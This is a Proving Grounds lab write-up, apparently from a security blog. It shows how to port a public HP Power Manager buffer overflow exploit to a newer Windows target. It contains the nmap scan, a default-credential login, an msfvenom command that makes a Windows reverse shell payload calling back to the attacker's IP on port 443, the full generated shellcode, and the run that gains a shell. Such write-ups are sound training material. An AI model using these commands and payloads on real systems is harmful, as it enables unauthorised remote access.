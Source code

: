 ```yaml
---
title: "Proving Grounds - Kevin"
date: 2024-10-19T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-kevin/
categories: Labs
tags: [writeup],[easy]
---
```

Welcome to our latest lab session in Proving Grounds! In this post, we'll demonstrate how to adapt an existing buffer overflow exploit for an older version of Windows to work on a newer release. This lab is considered to be a beginner lab as only porting existing exploit code is required.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.233.45 -oA ./fulltcp
```

The port scan suggests that we are likely dealing with a Windows machine, as indicated by the presence of commonly open ports that are characteristic of Windows environments. For instance, port 445/tcp is associated with the Server Message Block (SMB) protocol, which is used for file sharing and network resource access. Additionally, port 3389/tcp is used for Remote Desktop Protocol (RDP), allowing users to connect remotely to a Windows system. The scan also reveals other relevant ports, such as 135/tcp and 139/tcp, which are used for various Windows services, including RPC and NetBIOS. 

![image](https://github.com/user-attachments/assets/31ae973c-0f97-49b3-9a32-92f5729aba23)

The machine also hosts a web application, which presents a valuable opportunity for further exploration. In cases like this, especially in a lab environment, starting with the web application is often a prudent approach, as it can yield interesting findings. By investigating the web server, we may uncover useful information that could shed light on the underlying system architecture and functionality. This could include identifying technologies in use, potential vulnerabilities, or even configuration details that help us better understand the overall environment we're dealing with.

The page displays a login screen for HP Power Manager, which, upon first glance, appears somewhat dated in its design. The user interface lacks modern aesthetics and functionality, giving it an older feel that may suggest it hasn’t been updated in a while.

![image](https://github.com/user-attachments/assets/3c50b0f7-34e1-4640-a7e1-e0b66eb2b138)

Using the default credentials of admin/admin grants us access to the interface, revealing some insights into the application behind it. 

![image](https://github.com/user-attachments/assets/438a2576-5076-45cf-9668-73444f8b71ac)

Let’s take a look at Searchsploit to check for any vulnerabilities related to HP Power Manager. By searching the database, we can identify known exploits, security issues, or weaknesses associated with this application.

![image](https://github.com/user-attachments/assets/0e3e5ca1-bc00-49fe-aa68-9ad0112b5fb1)

It appears that the application we are dealing with is vulnerable to a buffer overflow vulnerability. This type of vulnerability can allow an attacker to manipulate the application’s memory, potentially leading to arbitrary code execution or denial of service.

By utilizing Searchsploit with the -w flag, we can pinpoint the URL (https://www.exploit-db.com/exploits/10099) that provides access to the exploit code associated with this vulnerability. This will enable us to review the specific details of the exploit, including its mechanics and any prerequisites for successful execution.

The provided exploit code targets a buffer overflow vulnerability in HP Power Manager and has been specifically tested on Windows 2003 Enterprise SP2 English and Windows XP SP2 English. We can identify that the code is written in Python 2 due to several key features:

1. **Print Statement**: The use of `print` statements without parentheses (e.g., `print "HP Power Manager Administration Universal Buffer Overflow Exploit"`) is characteristic of Python 2 syntax. In Python 3, `print` is a function and requires parentheses.

2. **String Handling**: The code employs string formatting and concatenation in a manner typical of Python 2. For instance, the `%` operator is used for string interpolation, which is less common in modern Python 3 code, where f-strings or the `format()` method are preferred.

The exploit works by sending a specially crafted HTTP POST request to the application, attempting to manipulate its memory by overwriting the return address with a location that can execute arbitrary code. The payload is constructed in the `evil` variable, which includes the necessary HTTP headers and the crafted buffer. As noted in the comments, this exploit demonstrates the significant security risks associated with outdated software, especially when default credentials remain in use.

I frequently search for new code to see if anyone has already taken the initiative to convert older projects to newer versions, such as Python 3. This proactive approach not only saves me time but also ensures that I can leverage the latest features and improvements in the language.

![image](https://github.com/user-attachments/assets/c0b78fbe-5169-497b-838d-888ec2f3f744)

I will use this Python 3 code (https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/blob/master/hp_pm_exploit_p3.py) example as a starting point and explore how we can port the existing code to ensure it works effectively.


## Exploit

We will download the exploit code and open it with a text editor of our choice. 

```bash
wget https://raw.githubusercontent.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/refs/heads/master/hp_pm_exploit_p3.py
nano hp_pm_exploit_p3.py
```

With buffer overflows often the command to generate the shellcode is added as a comment. This is also the case for our exploit.

![image](https://github.com/user-attachments/assets/434e1fd7-f86e-4d02-851e-b0eb822f7c1f)

We will use the msfvenom command to generate our own shellcode that will work with the buffer overflow. It’s crucial to remember to change the LHOST value to your own IP address to ensure the shellcode can establish a connection back to our machine. For the LPORT, we will select 443/tcp, as this port is commonly permitted on firewalls.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.166 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```

This outputs the following:

```bash
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of python file: 1722 bytes
buf =  b""
buf += b"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
buf += b"\x81\x76\x0e\xd2\x9f\xb3\xc4\x83\xee\xfc\xe2\xf4"
buf += b"\x2e\x77\x31\xc4\xd2\x9f\xd3\x4d\x37\xae\x73\xa0"
buf += b"\x59\xcf\x83\x4f\x80\x93\x38\x96\xc6\x14\xc1\xec"
buf += b"\xdd\x28\xf9\xe2\xe3\x60\x1f\xf8\xb3\xe3\xb1\xe8"
buf += b"\xf2\x5e\x7c\xc9\xd3\x58\x51\x36\x80\xc8\x38\x96"
buf += b"\xc2\x14\xf9\xf8\x59\xd3\xa2\xbc\x31\xd7\xb2\x15"
buf += b"\x83\x14\xea\xe4\xd3\x4c\x38\x8d\xca\x7c\x89\x8d"
buf += b"\x59\xab\x38\xc5\x04\xae\x4c\x68\x13\x50\xbe\xc5"
buf += b"\x15\xa7\x53\xb1\x24\x9c\xce\x3c\xe9\xe2\x97\xb1"
buf += b"\x36\xc7\x38\x9c\xf6\x9e\x60\xa2\x59\x93\xf8\x4f"
buf += b"\x8a\x83\xb2\x17\x59\x9b\x38\xc5\x02\x16\xf7\xe0"
buf += b"\xf6\xc4\xe8\xa5\x8b\xc5\xe2\x3b\x32\xc0\xec\x9e"
buf += b"\x59\x8d\x58\x49\x8f\xf7\x80\xf6\xd2\x9f\xdb\xb3"
buf += b"\xa1\xad\xec\x90\xba\xd3\xc4\xe2\xd5\x60\x66\x7c"
buf += b"\x42\x9e\xb3\xc4\xfb\x5b\xe7\x94\xba\xb6\x33\xaf"
buf += b"\xd2\x60\x66\x94\x82\xcf\xe3\x84\x82\xdf\xe3\xac"
buf += b"\x38\x90\x6c\x24\x2d\x4a\x24\xae\xd7\xf7\x73\x6c"
buf += b"\xff\x39\xdb\xc6\xd2\x9e\x08\x4d\x34\xf5\xa3\x92"
buf += b"\x85\xf7\x2a\x61\xa6\xfe\x4c\x11\x57\x5f\xc7\xc8"
buf += b"\x2d\xd1\xbb\xb1\x3e\xf7\x43\x71\x70\xc9\x4c\x11"
buf += b"\xba\xfc\xde\xa0\xd2\x16\x50\x93\x85\xc8\x82\x32"
buf += b"\xb8\x8d\xea\x92\x30\x62\xd5\x03\x96\xbb\x8f\xc5"
buf += b"\xd3\x12\xf7\xe0\xc2\x59\xb3\x80\x86\xcf\xe5\x92"
buf += b"\x84\xd9\xe5\x8a\x84\xc9\xe0\x92\xba\xe6\x7f\xfb"
buf += b"\x54\x60\x66\x4d\x32\xd1\xe5\x82\x2d\xaf\xdb\xcc"
buf += b"\x55\x82\xd3\x3b\x07\x24\x53\xd9\xf8\x95\xdb\x62"
buf += b"\x47\x22\x2e\x3b\x07\xa3\xb5\xb8\xd8\x1f\x48\x24"
buf += b"\xa7\x9a\x08\x83\xc1\xed\xdc\xae\xd2\xcc\x4c\x11"
```

In the example code the 'b' in front of every line is not used. Lets remove it for our payload as well.

![image](https://github.com/user-attachments/assets/91e62cb7-0681-4d8e-ada9-6df08e881177)

This results in the following code pasted in to the exploit.

![image](https://github.com/user-attachments/assets/c713de71-8fec-49ad-91e0-1fb5634a39dc)

We save our exploit and are ready to try it on the server. We will look at the script to see how to interact with it. In this case there is a help menu available.

![image](https://github.com/user-attachments/assets/c90c6b4b-0440-4021-908b-9cbff638ac5b)

It seems that the tool automatically starts up a listener.

![image](https://github.com/user-attachments/assets/f3277c34-c09b-4327-a405-460db7a25461)

Time for action.

```bash
python3 hp_pm_exploit_p3.py 192.168.233.45 80 443
```

The exploit works!

![image](https://github.com/user-attachments/assets/c7d3009a-b583-490f-a557-604587989408)

## Credits

Thank you for taking the time to read. My goal is to document my findings for personal reference and to share insights into my thought processes, helping those who are new to the field learn and grow. I believe that providing this additional context can be beneficial for others as they navigate their own journeys in this domain.
